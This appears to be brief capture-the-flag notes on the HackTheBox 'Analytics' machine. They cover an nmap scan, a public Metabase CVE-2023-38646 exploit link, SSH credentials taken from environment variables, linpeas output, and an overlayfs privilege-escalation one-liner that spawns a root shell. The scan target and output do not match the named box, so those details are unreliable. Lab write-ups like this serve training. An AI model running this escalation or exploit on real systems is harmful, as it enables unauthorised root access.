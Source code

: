 # #1 Introduction

# #2 nmap

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx analytics.htb
```

we run an nmap scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -sV -p- debug.thm
```

we got these open ports
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# #3 user.txt

## HTTP (port 80)

bootstrap metabase : 	"v0.46.6"

https://github.com/robotmikhro/CVE-2023-38646

in env variables, id to ssh
metalytics
An4lytics_ds20223#

/etc/nginx/sites-enabled/data.analytical.htb

╔══════════╣ Checking if containerd(ctr) is available
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation/containerd-ctr-privilege-escalation                                                  
ctr was found in /usr/bin/ctr, you may be able to escalate privileges with it                                                                      
ctr: failed to dial "/run/containerd/containerd.sock": connection error: desc = "transport: error while dialing: dial unix /run/containerd/containerd.sock: connect: permission denied"

╔══════════╣ Checking if runc is available
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation/runc-privilege-escalation                                                            
runc was found in /usr/bin/runc, you may be able to escalate privileges with it 



unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w, m && touch m/*;" && u/python3 -c 'import os;import pty;os.setuid(0);pty.spawn("/bin/bash")'


https://www.hackthebox.com/achievement/machine/458711/569

